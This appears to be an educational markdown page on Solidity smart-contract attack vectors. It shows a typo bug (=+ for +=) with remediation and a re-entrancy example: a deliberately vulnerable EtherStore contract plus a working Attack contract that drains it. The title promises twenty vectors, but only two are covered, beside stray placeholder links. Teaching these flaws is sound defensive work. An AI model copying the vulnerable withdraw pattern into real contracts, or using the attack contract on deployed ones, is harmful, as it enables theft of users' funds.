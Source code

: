 # 20 ATTACK VECTORS
- [Typographical Error](#typography)
- [Re-Entrancy Attack](#reentrancy)
- [Center](#center)
- [Color](#color)

## <font color="yellow">Typographical Error <a id="typography"></a></font>

### Description
*A typographical error can occur **for example** when the intent of a defined operation is to sum a number to a variable (+=) but it has accidentally been defined in a wrong way (=+), introducing a typo which happens to be a valid operator. Instead of calculating the sum it initializes the variable again.*

### Code sample
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.4.25;

//the compiler version is old hence the error will persist;
//by default, using a higher compiler version of 0.5.0 and higher, saves you from this error
//because unary operator has been disallowed from solidity version 0.5.0

contract TypoOneCommand {
    uint numberOne = 1;

    function alwaysOne() public {
        //ERROR=>:the next line only re-initialises numberOne to be 1 instead of incrementing it by 1
        numberOne =+ 1;
    }
}
```

### Remediation
The weakness can be avoided in two ways; 1)by performing pre-condition checks on any math operation or using a vetted library for arithmetic calculations such as SafeMath developed by OpenZeppelin. 2)always check and ensure that your solidity compiler version is the latest *stable* version if not the latest version

## <font color="yellow">Re-Entrancy Attack <a id="reentrancy"></a></font> 

### Description
*one major danger of calling external contracts is that they can take over the control flow as described thus: Let's say that contract A calls contract B.*

*Reentracy (a.k.a. recursive call attack) exploit allows B to call back into A before A finishes execution.*

### Code sample
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

/*
EtherStore is a contract where you can deposit and withdraw ETH.
This contract is vulnerable to re-entrancy attack.
Let's see why.

1. Deploy EtherStore
2. Deposit 1 Ether each from Account 1 (Alice) and Account 2 (Bob) into EtherStore
3. Deploy Attack with address of EtherStore
4. Call Attack.attack sending 1 ether (using Account 3 (Eve)).
   You will get 3 Ethers back (2 Ether stolen from Alice and Bob,
   plus 1 Ether sent from this contract).

What happened?
Attack was able to call EtherStore.withdraw multiple times before
EtherStore.withdraw finished executing.

Here is how the functions were called
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 bal = balances[msg.sender];
        require(bal > 0);

        (bool sent,) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;
    uint256 public constant AMOUNT = 1 ether;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= AMOUNT) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= AMOUNT);
        etherStore.deposit{value: AMOUNT}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```